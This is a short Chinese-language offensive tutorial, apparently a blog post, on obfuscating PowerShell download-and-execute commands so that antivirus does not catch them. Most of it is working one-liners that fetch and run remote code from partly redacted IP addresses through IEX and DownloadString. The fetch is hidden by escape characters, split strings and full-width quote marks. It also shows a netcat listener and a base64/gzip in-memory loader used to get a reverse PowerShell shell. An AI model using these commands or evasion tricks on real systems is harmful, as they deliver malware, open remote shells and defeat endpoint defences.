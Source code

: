 ### 处理 downloadstring  

使用转义符

```
"Down`l`oadString"
```

### 处理 http

以变量的方式拆分 http

```
powershell "$a='((new-object net.webclient).downloadstring(''ht';$b='tp://109.xx.xx.xx/a''))';IEX ($a+$b)"
```

以中文单引号分割

```
ht‘+’tp
```

基于以上混淆基础，就可以实现多种 bypass 的姿势  
如：  

```
cmd /c "set p1=power&& set p2=shell&& cmd /c echo (New-Object Net.WebClient).DownloadString("http://109.xx.xx/a") ^|%p1%%p2% -"
```

如：  

```
echo Invoke-Expression (New-Object "NeT.WebClient")."Down`l`oadString"('h'+'ttp://106.xx.xx.xx/a') | powershell -
```

如：  

```
chcp 1200 & powershell  -c "IEX(New-Object Net.WebClient)."DownloadString"('ht‘+’tp://xx.xx.xx/a')"
```

这里再分享一个小技巧：  
在测试对抗某些杀毒软件时，发现对 cmd 下操作查杀比较严格，相对来说 powershell 环境下更容易 bypass。  
而实际中可能更多的默认为 cmd。我们可以先用 socket 一句话反弹 powershell 环境，再执行后续操作。  
客户端执行命令：  

```
nc -lvp 9090
```

服务端 nc 监听即可：

```
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("xxx"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

以此来迂回得达到我们的目的。   
